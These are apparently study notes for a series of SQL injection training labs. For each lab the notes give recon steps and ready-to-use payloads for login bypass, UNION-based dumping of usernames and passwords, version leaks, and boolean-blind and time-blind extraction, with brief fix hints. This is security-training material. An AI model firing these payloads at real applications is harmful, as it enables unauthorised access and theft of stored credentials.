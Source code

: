 
**Recon:**

- Find a URL param like `?category=Gifts` or `?productId=1`
    
- Add a `'` => `?productId=1'`
    
- If you see **SQL error** => you’re in.
    

**Payload:**

- Test classic `' OR 1=1--`
    
- Example: `?productId=1 OR 1=1--`
    
- Expected: all products returned, including hidden ones.'




## Lab 2

- **Goal:** Bypass login.
    
- **Recon:** Try `' OR '1'='1`
    
- **Payload:**
    
    vbnet
    
    CopyEdit
    
    `Username: ' OR '1'='1 Password: anything`
    
- **Success:** You’re logged in as first user.



## Lab 3

- **Goal:** Use UNION to get usernames/passwords.
    
- **Recon:**
    
    - `' ORDER BY 1--` … increase to find number of columns.
        
    - `' UNION SELECT NULL,NULL--`
        
- **Payload:**
    
    vbnet
    
    CopyEdit
    
    `' UNION SELECT username,password FROM users--`
    
- **Success:** DB leaks users.


## Lab 4 
- **Goal:** Get multiple values into 1 output.
    
- **Recon:** If only 1 column shown, concat.
    
- **Payload:**
    
    bash
    
    CopyEdit
    
    `' UNION SELECT NULL, username || '~' || password FROM users--`
    
    (Postgres: `||`, MySQL: `CONCAT()`)
    
- **Success:** User + pass in 1 column.
    
- **Fix:** Same as above.


## Lab 5

- **Goal:** Figure out which column shows text.
    
- **Recon:** `' UNION SELECT NULL,'abc'--`
    
- **Payload:**
    
    - Try text in each column.
        
- **Success:** ‘abc’ appears on page.
    
- **Fix:** Prepared statements.

## Lab 6 

- **Goal:** Count columns for UNION.
    
- **Recon:** `' ORDER BY N--` until error.
    
- **Payload:**
    
    - `' UNION SELECT NULL,NULL--`
        
- **Success:** No error = correct count.
    
- **Fix:** Parameterize.

## Lab 7 

- **Goal:** Extract version for Oracle.
    
- **Recon:** `' UNION SELECT banner,NULL FROM v$version--`
    
- **Payload:**
    
    swift
    
    CopyEdit
    
    `' UNION SELECT banner,NULL FROM v$version--`
    
- **Success:** DB version leaks.
    
- **Fix:** DB user shouldn’t have select on sys tables.


## Lab 8

- **Goal:** Leak version.
    
- **Payloads:**
    
    pgsql
    
    CopyEdit
    
    `' UNION SELECT @@version,NULL-- ' UNION SELECT version(),NULL--`
    
- **Success:** Version shows.
    
- **Fix:** See above.

## Lab 9 
- **Goal:** Extract using true/false.
    
- **Payload:**
    
    sql
    
    CopyEdit
    
    `' AND 1=1-- ' AND 1=2--`
    
- **Recon:** Response changes? Blind works.
    
- **Use:** Craft conditional dumps:
    
    vbnet
    
    CopyEdit
    
    `' AND SUBSTRING((SELECT password FROM users LIMIT 1),1,1)='a'--`
    
- **Success:** Observe difference.
    
- **Fix:** Parameterize.


## Lab 10
- **Goal:** Extract with time.
    
- **Payload:**
    
    sql
    
    CopyEdit
    
    `' AND IF(1=1,SLEEP(5),0)-- ' WAITFOR DELAY '0:0:5'--`
    
- **Recon:** Response time = true.
    
- **Success:** Use for char brute:
    
    bash
    
    CopyEdit
    
    `' AND IF(SUBSTRING((SELECT database()),1,1)='a',SLEEP(5),0)--`


